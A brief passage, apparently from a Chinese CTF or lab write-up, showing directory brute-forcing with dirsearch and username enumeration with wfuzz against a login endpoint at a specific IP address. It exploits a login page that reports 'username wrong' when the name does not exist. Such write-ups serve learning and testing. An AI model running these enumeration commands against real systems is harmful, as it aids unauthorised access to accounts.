

`python dirsearch.py -u http://121.5.48.11:20021/`

发现会报用户名错误

`wfuzz -z file,"D:\study\docs\dicts\fuzzDicts\userNameDict\top500.txt" -d '{\"username\":\"FUZZ\",\"password\":\"123\"}' -H 'Content-Type: application/json'  --hs "用户名错误" -p 127.0.0.1:8082:HTTP http://121.5.48.11:20021/admin`